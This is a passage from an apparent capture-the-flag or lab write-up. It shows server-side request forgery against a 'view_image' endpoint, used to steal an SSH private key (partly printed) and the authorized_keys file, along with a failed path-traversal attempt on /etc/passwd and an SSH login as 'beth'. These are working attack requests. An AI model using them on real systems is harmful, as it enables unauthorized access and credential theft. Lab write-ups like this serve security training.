 ```bash
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
</ul>
<hr>
</body>
</html>
```

The holy grail, `id_rsa`, is right there for the taking. Let's grab it.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAz1yFrg9FAZAI4R37aQWn/ePTk/MKfz2KQ+OE45KErguL34Yj
5Kc1VJjDTTNRmc+vNRZieC8EwelWgpwcKACa70Ke2q/7zRLWHh23OUxWiSAAORTe
...
7MDu4QKBgFIomwhD+jmr3Vc2HutYkl3zliSD239sH3k118sTHbedvKH5Q7nw0C+U
a7RMp/cXWZKdyRgFxQ7DQEorzWi5bLAyxXnMg0ghwWdf4nugQmaEG7t+OYUNsf7M
fDLzMA915WcODR6L0mWO0crAMbZQOkg1KlAiwQSQmuUpPqyAfq6x
-----END RSA PRIVATE KEY-----
```

Jackpot! We have the private key. But who does it belong to? We could try to read `/etc/passwd` with a Local File Inclusion payload like `../../../../../etc/passwd`, but that fails.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1/../../../../../etc/passwd"
# This gives a 404, so no LFI here.
```

No worries. The other file in the `.ssh` directory, `authorized_keys`, often contains the username in a comment.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1/.ssh/authorized_keys"
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/PYpD44TjkoSuC4vfhiPkpzVUmMNNM1GZz681FmJ4LwTB6VaCnBwoAJrvQp7ar/vNEtYeHbc5TFaJIAA5FN5rWzl66zeCFNaNx841E4CQSDs7dew3CCn3dRQHzBtT4AOlmcUs9QMSsUqhKn53EbivHCqkCnqZqqwTh0hkd0Cr5i3r/Yc4REqsVaI41Cl3pkDxrfbmhZdjxRpES8pO5dyOUvnq3iJZDOxFBsG8H4RODaZrTW78eZbcz1LKug/KlwQ6q8+e4+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```

And there it is: `beth@london`. Now we have the key and the username. Let's log in!
*(Note: I saved the key as `beth.ssh` and set the correct permissions with `chmod 600 beth.ssh`)*.

```bash
❯ ssh -i beth.ssh beth@$IP
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
...
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$
```
